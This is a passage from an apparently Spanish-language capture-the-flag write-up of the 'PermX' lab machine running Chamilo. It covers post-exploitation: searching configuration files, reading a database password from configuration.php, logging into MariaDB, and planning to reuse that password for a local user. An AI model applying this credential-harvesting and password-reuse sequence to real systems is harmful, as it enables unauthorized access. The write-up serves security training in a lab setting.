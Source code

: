 - export TERM=xterm

Propoción al ver el nano

- stty rows 44 columns 184

<br>

# <span style="color:#e24b56">Post-Explotación</span>

## <span style="color:#a7f9fa">Accediendo a la Base de Datos</span>

Buscamos credenciales en los archivos de configuración:

```bash
www-data@permx:/var/www/chamilo$ find . -name \*config\*
```
En configuration.php, encontramos credenciales para la base de datos:

```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | less -S

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

```

Accedemos con:

```bash
www-data@permx:/var/www/chamilo$ mysql -uchamilo -p

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| chamilo            |
| information_schema |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [(none)]> 
```
<span style="color:#ffce33">Acceso al Usuario Local</span>

Encuentro una tabla con 2 usuarios y su contraseña encriptada pero antes de intentar crackearla voy a probar la contraseña con la que he accedido a la base de datos a conectarme al usuario mtz.
